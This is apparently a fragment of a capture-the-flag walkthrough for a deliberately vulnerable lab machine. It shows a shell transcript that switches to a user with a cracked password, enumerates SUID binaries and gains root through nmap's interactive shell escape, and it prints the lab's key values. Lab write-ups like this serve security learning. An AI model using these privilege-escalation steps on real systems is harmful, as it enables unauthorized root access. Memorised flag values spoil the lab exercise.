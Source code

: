 `abcdefghijklmnopqrstuvwxyz`

```
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

`822c73956184f694993bede3eb39f959`

```
find / -perm -u=s -type f 2> /dev/null

/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

[https://pentestlab.blog/2017/09/25/suid-executables/](https://pentestlab.blog/2017/09/25/suid-executables/)

```
nmap --interactive

nmap> !sh
!sh
# whoami
whoami
root
# cd /root
cd /root
# ls -l
ls -l
total 4
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
